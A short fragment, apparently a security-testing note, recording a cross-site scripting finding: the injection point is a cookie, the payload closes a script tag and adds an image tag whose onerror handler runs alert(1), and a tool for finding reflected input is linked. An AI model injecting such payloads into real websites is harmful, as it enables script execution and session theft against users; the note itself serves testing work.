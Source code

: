 Position: Cookie

Payload: `“></script><img src=x onerror=alert(1)>`

Tools: https://github.com/elkokc/reflector